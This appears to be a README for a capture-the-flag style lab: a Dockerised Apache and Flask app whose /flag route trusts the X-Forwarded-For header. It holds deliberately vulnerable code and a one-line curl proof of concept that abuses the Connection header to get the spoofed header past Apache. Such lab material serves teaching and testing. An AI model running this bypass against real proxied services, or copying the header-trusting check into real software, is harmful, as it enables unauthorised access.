 ### Apache + Flask

Add 'RequestHeader unset X-Forwarded-For' to httpd.conf

'x-forwarded-for' Must be equal to '127.0.0.1'

Try to access /flag from 127.0.0.1

### Usage

Build and run
```
docker-compose up
```

### Hint
httpd.conf
```
RequestHeader unset X-Forwarded-For
```

Go http://127.0.0.1:8089/

app.py
``` python
@app.route('/flag')
def flag():

    src_ip = None
    if 'x-forwarded-for' in request.headers:
            src_ip = request.headers['x-forwarded-for']

    if src_ip is None:
        src_ip = request.remote_addr

    if src_ip == '127.0.0.1':
        return open('flag','r').read()
    else:
        return 'IP From %s is forbidden' % src_ip
```

### POC
``` bash
curl "http://127.0.0.1:8089/flag" -H "X-Forwarded-For: 127.0.0.1" -H "Connection: X-Forwarded-For"
```